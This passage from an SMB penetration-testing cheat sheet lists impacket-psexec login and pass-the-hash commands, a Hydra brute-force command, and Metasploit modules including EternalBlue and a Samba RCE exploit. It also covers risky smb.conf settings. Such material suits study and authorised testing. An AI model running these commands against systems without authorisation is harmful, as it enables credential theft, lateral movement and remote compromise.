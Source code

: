 ```bash
# Login with AUTHENTICATION (prompt password)
impacket-psexec.py Administrator@$IP

# Login with HASH
impacket-psexec.py Administrator@$IP -hashes <hash:hash>
impacket-psexec.py example.local/Administrator@$IP -hashes <hash:hash>
```

# Hydra

[Hydra](https://github.com/vanhauser-thc/thc-hydra) is a `parallelized` login cracker which `supports numerous protocols` to attack. It is very fast and flexible, and new modules are easy to add.

```bash
hydra -L /wordlists.txt/users.txt -P /wordlists/passwords.txt $IP smb
```

# Metasploit Framework

[Metasploit Framework](https://github.com/rapid7/metasploit-framework) is an open source platform that supports vulnerability research, exploit development, and the creation of custom security tools.

```bash
auxiliary/scanner/smb/smb_version       # SMB version scanner
auxiliary/scanner/smb/smb2              # Detect SMB 2.0 protocol
auxiliary/scanner/smb/smb_enumusers     # Enum users via SAM RPC
auxiliary/scanner/smb/smb_enumshares    # Enum shares and list permissions
auxiliary/scanner/smb/smb_login         # Test a SMB login on a range of machines
auxiliary/scanner/smb/pipe_auditor      # Determine what named pipes are accessible over SMB
exploit/windows/smb/psexec              # Similar to "psexec" utility provided by SysInternals

auxiliary/scanner/smb/smb_ms17_010              # Scan the target for vulnerability
exploit/windows/smb/smb_ms17_010_eternalblue    # Exploit the eternalblue
exploit/linux/samba/is_known_pipename           # Exploiting samba v3.5.0 (RCE)
```

# Config files

```bash
# Default configuration (SAMBA)
cat /etc/samba/smb.conf | grep -v "#\|\;"
```

# Dangerous settings

Some settings have their own advantages and disadvantages. If an employee can access sensitive information, an attacker can too.

| Setting                     | Description                                                                                 |
| --------------------------- | ------------------------------------------------------------------------------------------- |
| browseable = `yes`          | Allows users to see a list of available shared resources within the current share.          |
| read only = `no`            | Enables users to create and modify files instead of restricting them to `read-only` access. |
| writable = `yes`            | Grants users permission to create and edit files.                                           |
| guest ok = `yes`            | Allows anyone to access the shared resource without authentication.                         |
| enable privileges = `yes`   | Honors special privileges assigned to a Security Identifier (**SID**).                      |
| create mask = `0777`        | Assigns full read, write, and execute permissions to newly created files.                   |
| directory mask = `0777`     | Grants full permissions to newly created directories.                                       |